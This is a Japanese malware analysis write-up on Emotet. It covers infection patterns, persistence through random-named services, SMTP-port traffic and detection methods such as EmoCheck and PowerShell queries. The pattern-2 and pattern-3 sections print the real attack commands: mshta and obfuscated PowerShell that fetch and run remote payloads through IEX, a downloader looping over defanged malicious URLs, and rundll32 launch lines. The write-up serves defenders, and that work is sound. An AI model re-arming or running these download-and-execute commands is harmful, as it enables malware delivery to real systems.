

# マルウェア:Emotetに関する解析情報

マルウェア:Emotetが活動を再開して、色々な感染事例が発生している。  
ここではEmotetに関して現在判明していることを記載する。

以下に現状把握している情報を記載するが、  
Emotetの進化が早いため、これらは早急に意味を無くす可能性もあり、常に最新の情報を探す必要がある。

## Emotetに関するざっくり解説。

2020年末ぐらいまで猛威をふるったマルウェア。  
マクロマルウェアを利用し、メールで侵入する。特色のある点として、感染した端末内のメールを入手し、*盗んだメールへの返信*でマルウェアをさらにばらまく。  

2019年ぐらいまでは、word(.doc)のマクロマルウェアが多い印象であったが、最近ではexcel(.xlsや.xlsm)を利用することが多い。  

## Emotetの動きに関するざっくり解説

ここ最近のEmotetでは亜種が多く出ているため、ざっくり３パターンを記載する。
なお多くの場合、rundll32.exeで最終的に動くようになる。

1. マクロから直接regsvr32.exe(またはrundll32.exe)を起動
2. マクロからmshta.exeを経由しrundll32.exeを起動
3. マクロからvbsを経由して２つのプロセスを起動。1：powrshellでDLLをダウンロード。2:cmdを経由してrundll32.exeを起動

これらの起動をするが、ほとんどの場合最終的には同じ挙動をしている。そのため、まずはこの点について記載する。  

### 作成ファイル  
まず、以下のようなファイル名のマルウェアが動作している。  

#### [フォルダ]  
- c:¥windows¥system32
- c:¥windows¥syswow64
- c:¥users¥ユーザ名

#### [ファイル名]  
Note: この配下にランダム文字列のフォルダを作成する  
{ランダム文字列1}¥{ランダム文字列2}.{ランダム文字列3}

- ランダム文字列1: 8桁のランダム文字列(a-z|A-Z|0-9)  
  ランダム文字列のフォルダ名  
- ランダム文字列2: 8桁のランダム文字列(a-z|A-Z|0-9)  
  ランダム文字列のファイル名  
- ランダム文字列3: 3桁のランダム文字列(a-z)  
  ランダム文字列のファイル拡張子  

### 永続性設定  

サービスとして登録することで永続性を付与する。今まで見る限り、ファイル名がそのままサービス名となっている。

### 挙動  

netコマンドなどの実行が見られるが、特筆すべき挙動としてはメール送信のポートで通信をしている。  
利用ポート: TCP:25,465,587

起動コマンドとしては以下となる。  
regsvr32とrundll32でそれぞれ以下となる。  

- regsvr32.exe  
  regsvr32 作成したファイル名(パスも含む)  
  Note: DllRegisterServerがついている場合もあり
- rundll32.exe  
  rundll32 作成したファイル名(パスも含む),DllRegisterServer  

## 検出する  

JPCERTがEmoCheckを公開しているため、これを利用するのがよい。  
https://github.com/JPCERTCC/EmoCheck/releases

ツールがある以上、自分で探すことはあまり必要ない(それに頼るべきではない)と思われるが、一応これ以外に検出するために利用できる情報を記載する。  
これらは、イコールEmotet感染ではないが、あまり発生する挙動ではないため、見つかった場合は感染している可能性が高いと思われる。  

### サービスを探す  

ランダム文字列のサービス名(.をつけた拡張子分もあり)になっている。  
そのため、見れば明らかによくわからないサービス名になっているため、わかりやすい。  
実際に見る際には、レジストリを直接チェックするとImagePathも含めて見れるため、以下のコマンドが見やすい。  

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Services /s /v ImagePath
```

### ファイルを探す

上述したようなランダム文字列のフォルダが直近で作成されていないかを確認する。存在する場合は、その中のファイルも確認する。  

### プロセスコマンドラインで探す  

コマンドラインに特徴があるため、WMIコマンドを利用して確認する。  

```powershell
Get-WmiObject win32_process | Select-Object CommandLine | Where-Object{ $_ -match "(?i)(rundll32|regsvr32).*(users|system32|syswow64)" -and $_ -notmatch "(?i)\.dll" }
```

### 通信プロセスを探す  

ネットワークの監視ツールやEDRのように通常時のログを調べることができるアプリケーションを持っている場合、以下の条件で検索することで見つかる可能性がある。  

- プロセス名: rundll32 or regsvr32  
- 通信ポート: 25 or 465 or 587  


## 各パターンの詳細説明  

起点の挙動が異なるため、それぞれの挙動を記載する。  

### パターン1  

以下のようなファイルをマクロマルウェア(Excel)が作成し、regsvr32.exeを起動する。  
- dataop.ocx
- besta.ocx,bestb.ocx,bestc.ocx
- good.good,good1.good,good2.good

これらのファイルは多くの場合、以下のフォルダに作成される。  
- ドライブ直下(c:¥)
- ユーザホーム(c:¥users¥ユーザ名)
- programdata(c:¥programdata)
- appdata(c:¥users¥ユーザ名¥appdata¥roaming)

現状見る限り、最初のファイルはtemp(appdata¥local¥temp)などは利用されていなかった。  

このファイルは、自己複製で最終的なファイルを作成し、起動する。  

### パターン2  

mshtaで、以下のようなコマンドが実行される。  


mshtaはHTMLアプリケーションを実行するものであり、vbオブジェクトをファイルレスで実行できるなどの特徴がある。  
Note: 2020年末に大きく流行ったIcedIDもこのmshtaをin.comという名前でコピーして悪用していた。  

このコマンドラインは、本来は簡単な検知回避がなされているが、明らかにhttpという文字が見て取られ、Web経由で悪性コードを取得して実行する流れになっている。  

```
ms[..]hta hxxp://91[.]240[.]118[.]168/vvv/ppp/fe.html
```
Note: URLをマスク。mshtaの間にもマスクのための文字列を挿入  

このコマンド後、以下のpowershellコードが起動。
その後、
```
power[..]shell[.]exe -noexit $c1='({FdrggvdRf}{FdrggvdRf}Ne{FdrggvdRf}{FdrggvdRf}w{FdrggvdRf}-Obj{FdrggvdRf}ec{FdrggvdRf}{FdrggvdRf}t N{Fdrggvd〜省略〜(''ht{FdrggvdRf}tp{FdrggvdRf}://{IPアドレス}/vvv/ppp/fe.png'')'.replace('{FdrggvdRf}', '');$JI=($c1,$c4,$c3 -Join '');I`E`X $JI|I`E`X
```
Note: URLをマスク。powershellの間にもマスクのための文字列を挿入  

このコマンドが実行されると、以下にアクセスする。これはpngとなっているが、実態はpowershellコードであり、取得してInvoke-Expression(IEX)で実行する。  
hxxp://91[.]240[.]118[.]168/vvv/ppp/fe[.]png
Note: URLをマスク。このURLはすでに閉じており、取得はできなかった

このpowershellから以下のrundll32が起動する。  

```
 C:\Windows\SysWow64\rundll32.exe C:\ProgramData\QWER.dll,BBDD
```

このrundll32から自己複製と再帰呼び出しを経由して、以下のrundll32が起動する。  

```
 C:\Windows\system32\rundll32.exe "C:\Users\{ユーザ名}\AppData\Local\Bcijlewvkqocxvo\bzoqvbfgbwa.hzf",DllRegisterServer
```

以下にAnyRunでの実行結果がある。  
Note: AnyRunはサンドボックスであるが、操作を自由に行える点が大きく異なる。

https://app.any.run/tasks/59071771-ef3e-45a1-88f0-bfb2a7bb5502/

### パターン3  

マクロマルウェアから以下２つのプロセスを起動する。  

- 悪性マクロExcel
  * cmd -> powershell : DLLファイルをダウンロード
  * vbs -> cmd -> rundll32 : ダウンロードしたDLLの実行

その後、このrundll32を再帰的に呼び出しと自己複製を行う。
次に、powershellコードの内容などを見る。また、 本パターンはマクロマルウェア自体を見れたため、その点も記載する。  
まず、重要なこととして本マクロマルウェアではマクロコード内に悪性コードが記載されていない。  
コードの本体はワークシート内に記載されており、そのシートの内容を取得して実行している。
ワークシート内の記載は、白文字が利用されていて文字色を変更後、全体を見ると確認できる。  
また、マクロコード内では、cellを明確には指定しておらず、forでチェックを回している。  
以下は、実際のワークシートで、文字を赤にした内容となる。  



マクロの内容は以下となる。この内容には、悪性と思われるコードはないが、念のため文字列やfunction名は変えている。  
```
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
Function GFdsfkkjlksdfkhlkjs(rgRange As Range) As String
Set rgRange = rgRange.Range("A1")
Select Case True
Case IsEmpty(rgRange)
Dfasdfsdfasfjlkldsf = "395"
Case Application.IsText(rgRange)
Dfaserjlkjshlkhlkjs = "adads"
Case Application.IsLogical(rgRange)
Dfaserjlkjshlkhlkjs = ";"
Case Application.IsErr(rgRange)
Dfaserjlkjshlkhlkjs = "D"
Case IsDate(rgRange)
Dfaserjlkjshlkhlkjs = "pqd"
Case InStr(1, rgRange.Text, ":") <> 0
Dfaserjlkjshlkhlkjs = ":"
Case IsNumeric(rgRange)
Dfaserjlkjshlkhlkjs = "b"
End Select
End Function
Private Sub Workbook_Open()
Dim strFindData As String
Dim rgFound As Range
Dim i As Integer
If i = 567 Then
strFindData = InputBox("lpg")
For i = 1 To Worksheets.Count
With Worksheets(i).Cells
Set rgFound = .Find(strFindData, LookIn:=xlValues)
If Not rgFound Is Nothing Then
Sheets(i).Select
rgFound.Select
Exit Sub
End If
End With
Next
MsgBox ("")
Else: asdfaddfdfldjkgf.kljkljfsdlkasjdfwdgSDYHsd
strFindData = "err": Range("A3").Select
End If
End Sub
```

このマクロは、Workbook_Openで実行されるため、マクロを有効にすればすぐ実行される。  
各挙動を記載するが、この内容は以下のgithubで公開されている。  
[githubリポジトリ:pr0xylife/Emotet](https://github.com/pr0xylife/Emotet/blob/main/e5_emotet_03.02.2022.txt)

マクロ有効化後、以下のvbsを起動する。  
c:¥programdata¥wetidjks.vbs

その後、このvbsから以下２つの挙動が発生する。
Note: このパターンではvbsやbat、dllのファイル名は固定されている。しかし、これは現状であり、いくらでも変わりうる。  

#### 挙動1  

まずは作成されたbatファイルを経由して以下のpowershellコードが実行される。

- バッチファイル名  
c:\programdata\jledshf.bat

powershellコードは以下。
```
$gjsebngukiwug3kwjd = "hxxp://chupahfashion[.]com/eh6bwxk/bowptl/xdAiCtVd/", "hxxp://id-tiara[.]com/well-known/AW7ddGt/", "hxxp://crm[.]avionxpress[.]com/media/H4fjpmz/", "hxxp://liaisonltd[.]com/-/wJqOY64M/", "hxxps://giskunihar[.]com/wp-content/4meLxvZP/", "hxxps://albbd[.]online/wp-content/wUw03JZqT3/", "hxxps://detroitsignsandwraps[.]com/wp-admin/bPmzjYidYDLUT/", "hxxps://tranhgohoangthiet[.]com/Fox-C/E9ZETOCG4gWfNONRKWG/", "hxxp://a-bc[.]cn/img/nhBjlyOAmot/", "hxxps://stavki-na-sporte[.]ru/wp-content/qZ9UqoY2IzXUAqW3/"
foreach ($hklwrhjse4h in $gjsebngukiwug3kwjd) {
  $js3hlskdcfk = "vbkwk"
  $sdewhsw3gkjsd = get-random
  $idrfghsbzkjxd = "c:\\programdata\\" + $js3hlskdcfk + ".dll"
  invoke-webrequest -uri $hklwrhjse4h -outfile $idrfghsbzkjxd
  if (test-path $idrfghsbzkjxd) {
    if ((get-item $idrfghsbzkjxd).length -ge 50000) {
      break
    }
  }
}
```
Note: URLはマスクしている

大きな挙動としては、以下になる。  
1. gjsebngukiwug3kwjdの変数にダウンロードURLを定義  
  上のコードでは直接配列として定義しているが、実際には文字列を作成し、splitコマンドで配列にしている  
2. URLにアクセスし、vbkwk.dllというファイル名でダウンロード  
3. ダウンロードしたファイルが存在し、サイズが50000バイト以上である場合は終了  

#### 挙動2  

vbsからcmdを経由して以下のDLLを起動する。

```
c:\windows\syswow64\rundll32.exe c:\programdata\vbkwk.dll,dfsgeresd ","",""):fhnl213klsd.Run indlhwkjhks,0:Set fhnl213klsd=nothing
```

以上。  
セキュリティに関わる方々の一助になれば幸いです。
